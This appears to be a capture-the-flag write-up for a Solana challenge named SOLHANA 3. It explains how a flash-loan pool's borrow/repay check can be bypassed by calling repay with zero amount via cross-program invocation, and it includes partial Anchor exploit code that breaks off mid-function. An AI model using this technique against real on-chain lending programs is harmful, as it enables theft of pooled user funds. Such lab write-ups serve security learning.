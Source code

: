 Player could able to steal tokens from the pool, we can also do the same thing with stEth tokens.

<br><br>

# SOLHANA 3

- Deposit and withdraw are same as before.
- Borrow:
    - lends the user some amount of tokens from the pool
    - Ensures that the user calls the repay function in the same transaction with the same amount borrowed.
    - After making sure that repay instruction exists in the transaction, it transfers the tokens to the user.
- Repay:
    - transfer the tokens from user token account to the pool token account.


## What I understood
The program lets the user to borrow the tokens from the pool, and the user must pay back the tokens to the pool in the same transaction, We need to find a way to steal the tokens before repaying the tokens to the program.
One way we could steal the tokens by double borrowing, but the `borrowing` field in the pool account data restricts that.
We need to figure a way to call the repay instruction with 0 amount before double borrowing, but the amount is being validated when we have a call to the repay instruction. We could bypass this by calling the repay instruction from an external program with cpi. This way we could call the repay instruction with 0 amount before the borrowing the funds second time. At last we end up with the half the amount of tokens we borrowed.

# Exploit:
- Writing an external program to call the repay instruction.

```rust
use anchor_lang::prelude::*;

use anchor_spl::token::{ TokenAccount, Token };

use challenge3::{self, Pool, State};
use challenge3::cpi::accounts::Repay;
use challenge3::program::Challenge3;

declare_id!("3dxs6HNWYRGW3LTQygqJaJDYhbGEfA8NR1HKEbpi6rZ6");

#[program]
pub mod caller {
    use super::*;

    pub fn call_repay(ctx: Context<RepayStuff>) -> Result<()> {
        msg!("Calling the repay from other program");
        
        let cpi_program = ctx.accounts.chall3.to_account_info();
        let cpi_accounts = Repay {
            player: ctx.accounts.player.to_account_info(),
            user: ctx.accounts.player.to_account_info(),
            state: ctx.accounts.state.to_account_info(),
            pool: ctx.accounts.pool.to_account_info(),
            pool_account: ctx.accounts.pool_account.to_account_info(),
            depositor_account: ctx.accounts.depositor_account.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info()
        };
        let cpi_ctx = CpiContext::new(cpi_program, cpi_accounts);
        challenge3::cpi::repay(cpi_ctx, 0)

```